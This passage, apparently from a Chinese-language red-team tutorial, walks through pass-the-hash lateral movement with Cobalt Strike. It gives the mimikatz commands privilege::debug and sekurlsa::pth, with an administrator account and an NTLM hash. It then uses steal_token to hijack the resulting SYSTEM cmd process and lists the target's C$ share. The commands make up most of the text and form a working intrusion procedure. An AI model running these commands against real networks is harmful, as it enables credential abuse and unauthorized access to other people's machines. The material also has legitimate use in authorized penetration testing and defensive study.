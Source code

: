 [![](assets/1702372940-eb87d5befcda995d1166ef76ea469229.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/21.png)

## [](#PTH-mimikatz "PTH-mimikatz")PTH-mimikatz[](#PTH-mimikatz)

使用`cs`的`mimikatz`进行`pth`，发现执行后在目标主机上弹出cmd窗口，可利用进程窃取，直接在cs上进行远程操作。

```bash
mimikatz privilege::debug
mimikatz sekurlsa::pth /user:administrator /domain:192.168.91.178 /ntlm:c780c78872a102256e946b3ad238f661
```

这时候 `mimikatz` 会打开一个system 权限的cmd窗口。我们查看目标进程，`explore->process list`,选择最下方的 `cmd.exe` 进程

[![](assets/1702372940-d8ea9267b14df2e5001137f285b126f5.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/22.png)

```plain
steal_token 3532
dir \\192.168.91.178\c$
```
